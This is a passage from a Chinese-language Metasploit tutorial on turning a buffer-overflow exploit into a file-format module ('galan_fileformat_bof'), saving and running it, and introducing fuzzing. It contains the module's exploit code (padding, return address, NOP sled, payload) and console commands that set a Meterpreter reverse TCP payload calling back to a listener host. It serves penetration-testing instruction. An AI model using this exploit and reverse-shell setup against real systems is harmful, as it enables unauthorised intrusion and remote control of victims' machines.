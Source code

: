 最后，我们可以将这些脚本行组合在`exploit()`函数下。

```
def exploit
sploit = "Mjik"
sploit << rand_text_alpha_upper(1028)
sploit << [target.ret].pack('V')
sploit << "\x90" * 45
sploit << payload.encoded
galan = sploit
print_status("Creating '#{datastore['FILENAME']}' file ...")
file_create(galan)
end 
```

这是一个简单明了的演示，说明了我们如何将现有的利用转换为 Metasploit 模块。这个过程的难度水平可能因利用而异。了解更多的最佳方法是查看 Metasploit 库中可用的利用模块。在下一个示例中，我们将学习如何将这个利用模块移植到框架中，以便我们可以将其用于渗透测试。

# 移植和测试新的利用模块

在上一个示例中，我们学习了如何使用现有的概念来开发 Metasploit 的完整利用模块。在这个示例中，我们将把模块保存在一个合适的位置，然后测试它，看看是否一切顺利。

## 准备工作

非常重要的是要注意我们将存储利用模块的文件夹。这可以帮助您跟踪不同的模块，并且还可以帮助框架了解基本模块的使用。现在您有了完整的模块脚本，让我们找一个合适的位置来保存它。

## 如何做...

由于这是一个利用模块，针对影响特定文件格式的 Windows 操作系统，我们将不得不相应地选择模块位置。查看`modules/exploits/windows`目录，您可以找到一个特定的文件夹用于`fileformat`利用模块。这是我们可以保存模块的位置。让我们将其保存为`galan_fileformat_bof.rb`。

## 它是如何工作的...

下一个和最后的任务将是检查我们的模块是否正常运行。到目前为止，我们已经与模块一起工作了很多，所以这一步将很容易。我们将遵循迄今为止我们所使用的相同过程：

```
msf > use exploit/windows/fileformat/galan_fileformat_bof
msf exploit(galan_fileformat_bof) > set PAYLOAD windows/meterpreter/reverse_tcp
msf exploit(galan_fileformat_bof) > set LHOST 192.168.56.101
msf exploit(galan_fileformat_bof) > exploit 
```

一旦传递了利用命令，模块将执行并创建一个文件，可以用来在目标机器上引起溢出。

这完成了我们的模块创建和执行过程。您可能已经看到，该过程很简单。真正的努力在于将利用脚本正确转换为框架模块。您可以根据需要调试或修改任何现有模块。您还可以将任何新创建的模块提交给 Metasploit 社区，以帮助其他人从中受益。

# 使用 Metasploit 进行模糊测试

模糊测试或模糊是一种软件测试技术，它包括使用随机数据注入来查找实现错误。模糊脚本生成格式不正确的数据，并将其传递给特定的目标实体，以验证其溢出容量。Metasploit 提供了几个模糊模块，这些模块在利用开发中可能会有所帮助。让我们更多地了解一下模糊测试的基础知识，以及如何使用 Metasploit 模块作为潜在的模糊器。

## 准备就绪
